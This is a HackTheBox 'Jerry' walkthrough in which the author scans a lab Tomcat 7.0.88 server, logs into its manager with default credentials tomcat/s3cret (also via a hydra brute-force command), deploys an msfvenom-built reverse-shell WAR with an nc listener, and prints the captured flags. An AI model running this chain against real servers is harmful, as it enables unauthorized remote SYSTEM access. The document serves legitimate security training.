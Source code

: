 ```yaml
---
title: HackTheBox - Jerry
date: 2021-08-15 00:36:34 +0100
categories: [Hackthebox walkthroughs, Windows, Easy]
tags: [gobuster, nikto, tomcat, war, default credentials, hydra, msfvenom, htb-windows-easy, writeup, oscp-prep]
image: /assets/img/htb/machines/windows/easy/jerry/Jerry.png
---
```


## Enumeration

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Jerry-full-port-scan.txt 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.11s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

### Port 80 (Apache Tomcat/7.0.88)

#### `gobuster`

```bash
$ gobuster dir -u http://$TARGET:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x .jsp
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.95:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              jsp
[+] Timeout:                 10s
===============================================================
2021/08/14 20:48:16 Starting gobuster in directory enumeration mode
===============================================================
/aux                  (Status: 200) [Size: 0]
/com2                 (Status: 200) [Size: 0]
/com3                 (Status: 200) [Size: 0]
/com4                 (Status: 200) [Size: 0]
/com1                 (Status: 200) [Size: 0]
/con                  (Status: 200) [Size: 0]
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]             
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/index.jsp            (Status: 200) [Size: 11398]                 
/lpt2                 (Status: 200) [Size: 0]                     
/lpt1                 (Status: 200) [Size: 0]                     
/manager              (Status: 302) [Size: 0] [--> /manager/]     
/nul                  (Status: 200) [Size: 0]                     
                                                                  
===============================================================
2021/08/14 20:49:58 Finished
===============================================================
```

Since I was curious, I looked for exploits against **Apache Tomcat/7.0.88**:

```bash
$ searchsploit Tomcat 7.0.88
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (1)                                              | windows/webapps/42953.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)                                              | jsp/webapps/42966.py
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

But it appears that the server was not vulnerable:

![Desktop View](/assets/img/htb/machines/windows/easy/jerry/CVE_2017_12617.png)

#### `nikto`

`nikto` revealed that the credentials to access the `/manager` are the default ones:

- **username**: `tomcat` 
- **password**: `s3cret` 

![Desktop View](/assets/img/htb/machines/windows/easy/jerry/nikto.png)

> We could also bruteforce them using `hydra`:

```bash
$ hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -s 8080 $TARGET http-get /manager/html
```

![Desktop View](/assets/img/htb/machines/windows/easy/jerry/hydra.png)

Once authenticated, the first thing that should come to our eyes is the fact that we can deploy WAR files:

![Desktop View](/assets/img/htb/machines/windows/easy/jerry/tomcat.png)

## Exploitation

First we need to create a malicious WAR file using `msfvenom`, then we can start a listener:

```bash
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=$(vpnip) LPORT=1234 -f war > shell.war
Payload size: 1102 bytes
Final size of war file: 1102 bytes
$ nc -lnvp 1234
listening on [any] 1234 ...
```

![Desktop View](/assets/img/htb/machines/windows/easy/jerry/war.png)

If we click on **List applications** or if we simply refresh the page, the `shell` application should appear:

![Desktop View](/assets/img/htb/machines/windows/easy/jerry/shell_app.png)

Clicking on it will execute it. Then we have a shell as 😯 ... **SYSTEM**!!!

![Desktop View](/assets/img/htb/machines/windows/easy/jerry/shell.png)

```cmd
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"    
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```

___

## Interesting links

- [C2 - SILENTTRINITY](https://github.com/byt3bl33d3r/SILENTTRINITY)